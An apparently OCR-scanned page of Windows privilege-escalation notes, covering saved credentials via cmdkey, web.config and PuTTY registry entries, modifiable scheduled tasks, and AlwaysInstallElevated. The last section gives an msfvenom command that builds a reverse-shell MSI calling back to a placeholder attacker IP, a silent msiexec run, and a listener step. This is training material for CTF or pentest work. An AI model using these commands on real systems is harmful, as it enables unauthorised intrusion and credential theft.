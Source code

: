 ### **Saved Windows Credentials:**

* The `cmdkey /list` command lists saved credentials for other users. While passwords are not revealed, suspicious entries can be further tested with `runas /savecred`.  

### **IIS Configuration:**
- IIS (Internet Information Services) Configuration refers to the settings and parameters that determine how IIS, a web server software, functions. These configurations control various aspects of how IIS handles requests, processes content, and interacts with other applications.
* The `web.config` file (in locations like `C:\inetpub\wwwroot\web.config`) might contain database connection strings or authentication credentials for web applications.

### **PuTTY Configuration:**
- PuTTY Configuration refers to the settings and parameters that determine how PuTTY, a popular SSH and telnet client, functions. These configurations control various aspects of how PuTTY connects to remote servers, handles sessions, and displays information.

- * While PuTTY doesn't store SSH passwords, proxy configurations retrieved with `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\` might contain cleartext usernames and passwords.


Privilege escalation can sometimes be straightforward due to misconfigurations, allowing access to higher privileges or even administrator rights. While these scenarios are more common in Capture The Flag (CTF) events than in real penetration testing, they can still be useful fallback methods.

## **Scheduled Tasks**

- By examining scheduled tasks, you might find one that uses a modifiable binary. For example, using the `schtasks` command, you can identify tasks and their executables. If you have permission to modify the executable, you can replace it with a payload to gain higher privileges.

## **AlwaysInstallElevated**

- Windows installer files (.msi) typically run with the privilege level of the user who starts them. However, they can be configured to run with elevated privileges from any user account, even unprivileged ones. This allows the creation of a malicious MSI file that can run with admin privileges.

- #### **Requirements**                                                                                                                                              To exploit this, two registry values must be set:

* `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`  
* `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

You can check these values using the following commands:  
C:\\\> reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer  
C:\\\> reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer

#### **Exploitation Steps**

1. Generate a Malicious MSI File: Use `msfvenom` to create a reverse shell payload in an MSI file:   
   \`\`\`msfvenom \-p windows/x64/shell\_reverse\_tcp LHOST=ATTACKING\_MACHINE\_IP LPORT=LOCAL\_PORT \-f msi \-o malicious.msi\`\`\`  
2. Run the Malicious MSI File: Transfer the MSI file to the target machine and execute it: \`\`\`C:\\\> msiexec /quiet /qn /i C:\\Windows\\Temp\\malicious.msi \`\`\`  
3. Set Up a Listener: Ensure you have a listener set up on your attacking machine to catch the reverse shell.
